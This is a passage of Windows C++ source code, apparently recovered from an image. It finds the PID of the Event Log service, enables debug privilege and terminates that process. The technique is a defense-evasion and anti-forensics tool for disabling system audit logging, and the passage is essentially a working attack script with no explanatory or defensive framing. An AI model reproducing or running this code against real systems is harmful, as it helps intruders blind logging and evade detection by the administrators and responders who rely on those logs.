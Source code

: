 ```
		cbBufSize = pcbBytesNeeded;
		lpServices = new BYTE[cbBufSize];
		if (NULL == lpServices)
		{
			printf("[!]lpServices = new BYTE[%ld] -> fail(%ld)\n", cbBufSize, GetLastError());
		}
		else
		{
			ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
			LPENUM_SERVICE_STATUS_PROCESS lpServiceStatusProcess = (LPENUM_SERVICE_STATUS_PROCESS)lpServices;
			for (DWORD i = 0; i < servicesReturned; i++)
			{
				_strlwr_s(lpServiceStatusProcess[i].lpServiceName, strlen(lpServiceStatusProcess[i].lpServiceName) + 1);
				if (strstr(lpServiceStatusProcess[i].lpServiceName, "eventlog") != 0)
				{
					printf("[+]ServiceName:%s\n", lpServiceStatusProcess[i].lpServiceName);
					printf("[+]PID:%ld\n", lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId);
					PID = lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId;
				}
			}
			delete[] lpServices;
		}
		CloseServiceHandle(scHandle);
	}

	return PID;
}

int main(int argc, char *argv[])
{

	DWORD pid = getpid();
	if (pid == 0)
	{
		printf("[!]Get EventLog's PID error\n");
		return -1;
	}

	printf("[+]Try to EnableDebugPrivilege... ");
	if (!EnableDebugPrivilege(TRUE))
	{
		printf("[!]AdjustTokenPrivileges Failed.<%d>\n", GetLastError());
		return -1;
	}
	printf("Done\n");

	printf("[+]Try to OpenProcess... ");
	HANDLE processHandle = OpenProcess(PROCESS_TERMINATE, FALSE, pid);
	if (processHandle == NULL)
	{
		printf("Error\n");
		return -1;
	}
	printf("Done\n");

	printf("[+]Try to TerminateProcess... ");
	BOOL bResult = TerminateProcess(processHandle, 0);
	if (bResult == NULL)
	{
```